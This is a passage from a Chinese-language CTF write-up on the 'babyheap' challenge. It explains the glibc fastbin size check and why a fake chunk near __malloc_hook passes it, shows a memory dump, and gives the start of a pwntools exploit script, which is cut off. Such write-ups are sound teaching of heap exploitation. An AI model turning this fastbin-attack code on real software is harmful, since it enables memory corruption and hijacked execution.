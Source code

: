 ```c
if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
{
    errstr = "malloc(): memory corruption (fast)";
errout:
    malloc_printerr (check_action, errstr, chunk2mem (victim), av);
    return NULL;
}
```
咱们填充`0x71`是为了下面`alloc(0x60)`时，不会崩掉.
下面给出`fastbin_index代码`:
```c
#define fastbin_index(sz) \
  ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)
  相当于 (chunksize >> 4) - 2
```
**3. 为什么不选择`malloc_hook`作爲第二次`Alloc`返回的地址呢?**
> 有下面内容可知, `0x7f1017adfaed`的`chunksize`为`0x7f`, `fastbin_index`检查时不会出错。
而`malloc_hook`处`chunksize`为0, 马上就会崩掉喽。
```
0x7f1017adfaed <_IO_wide_data_0+301>:	0x1017ade260000000	0x000000000000007f
0x7f1017adfafd:	0x10177a0e20000000	0x10177a0a0000007f
0x7f1017adfb0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7f1017adfb1d:	0x0000000000000000	0x0000000000000000
```

### EXP

```python
from pwn import *
context(log_level='debug')

DEBUG = 1
if DEBUG:
    p = process('./babyheap')
    libc = ELF('./libc.so.6')
else:
    p = remote()

def alloc(size):
    p.recvuntil('Command:')
    p.sendline('1')
    p.recvuntil('Size:')
    p.sendline(str(size))

def fill(index, size, content):
    p.recvuntil('Command:')
    p.sendline('2')
    p.recvuntil('Index:')
    p.sendline(str(index))
    p.recvuntil('Size:')
    p.sendline(str(size))
    p.recvuntil('Content:')
    p.send(content)

def free(index):
    p.recvuntil('Command:')
    p.sendline('3')
    p.recvuntil('Index:')
    p.sendline(str(index))

def dump(index):
    p.recvuntil('Command:')
    p.sendline('4')
    p.recvuntil('Index:')
```